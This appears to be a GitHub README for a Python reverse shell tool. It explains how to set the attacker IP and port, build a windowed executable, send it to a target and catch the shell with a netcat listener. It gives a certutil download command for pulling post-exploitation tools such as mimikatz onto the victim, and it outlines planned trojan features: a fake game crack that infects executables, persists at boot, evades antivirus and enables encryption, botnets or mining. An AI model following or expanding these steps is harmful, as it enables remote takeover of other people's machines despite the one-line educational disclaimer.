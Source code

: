 <h1 align="center">Reverse shell payload only using python</h1>

<p align="center">
<a href="#"><img alt="reverseshellpy forks" src="https://img.shields.io/github/forks/cdkw/reverseshellpy?style=for-the-badge"></a>
<a href="#"><img alt="reverseshellpy last commit (main)" src="https://img.shields.io/github/last-commit/cdkw/reverseshellpy/main?color=green&style=for-the-badge"></a>
<a href="#"><img alt="reverseshellpy Repo stars" src="https://img.shields.io/github/stars/cdkw/reverseshellpy?style=for-the-badge&color=yellow"></a>
<a href="#"><img alt="reverseshellpy License" src="https://img.shields.io/github/license/cdkw/reverseshellpy?color=orange&style=for-the-badge"></a>
<a href="https://github.com/cdkw/reverseshellpy/issues"><img alt="reverseshellpy issues" src="https://img.shields.io/github/issues/cdkw/reverseshellpy?color=purple&style=for-the-badge"></a>

<p align="center">Do not attack anyone without their consent. Made for educational purposes only.</p>
<p align="center"><img src="https://i.imgur.com/uKFy6zZ.png" alt="SCRIPT"></p>


# Usage:

Replace in the python file the ip and port of your netcat reverse shell server. (tutorial on that below)
```py
def main():
    server_ip = '127.0.0.1'  # Replace with the server's IP address
    server_port = 9001       # Replace with the same port number used on the server
```


Then using auto_py_to_exe or py_to_exe make it an executable. Note that this did not work on kali linux for me.
```
pip install auto-py-to-exe
python -m auto_py_to_exe
```

Select the `Script Location`, then choose `One file`, then choose `window based`. Add an icon if you want, or extra files like mimikatz.exe embedded into it (requires your own code). Then `Convert .py to .exe`. Open the folder you were in when u typed `python -m auto_py_to_exe` and go into `output`, in this folder you will find your exe file.

Now, just send it to your other machine. 
`Note that this is not obfuscated or made to be used with any tunnel to hide the server's ip.`

# Netcat Server

Open a terminal in a machine that has installed netcat (ncat, nc), for example u can get it while installing nmap for windows. 
In the terminal, type `nc -lvp <PORT>`, replacing `<PORT>` with the port you have chosen for your listener.

# Post-exploitation:

After gaining access to your target, you can use `certutil` (`certutil -urlcache -split -f https://www.example.com/example.zip C:\path\to\file`, it being located in the system32 folder) or the embedded `--wget` function of the rs.py to download post-exploitation tools like priviledge exploitation with `mimikatz.exe`.

# PLANS / WORKING ON / NOT ADDED YET :
This "virus" will be organised in 3 stages.

Once ran, it works like the app that it was advertised, for this example we will say that the app it was supposed to be is a crack for gta 5. The app starts normally and works normally, but the "malicious" code is first checking for its permissions, it starts by starting a reverse shell tunnel to the attacker (using embedded tunnel like ngrok).


Stage 1. ```It starts by analyzing its permissions, and replacing good .exe files with infected ones. It adds itself to boot menu and slowly infects everything that it finds from its database. While keeping itself hidden from malware detection.```

Stage 2. ```It adds itself to boot menu and chooses an app like Microsoft Edge to embed itself into it. It's now infecting every executable file in your system. Its goal now is to achieve administrator permissions and to infect the system32.```

Stage 3. ```At this point, damage is irreversible. And antivirus can be shut down at any time, for the system to be encrypted, or used for other purposes that the attacker might like, for example, botnets or crypto mining. Topping to that, .iso files will be natively infected with the same virus, working on all types of images```

Disclaimer that these are only future plans, stuff might change. For now its only a simple local hosted reverse shell. 



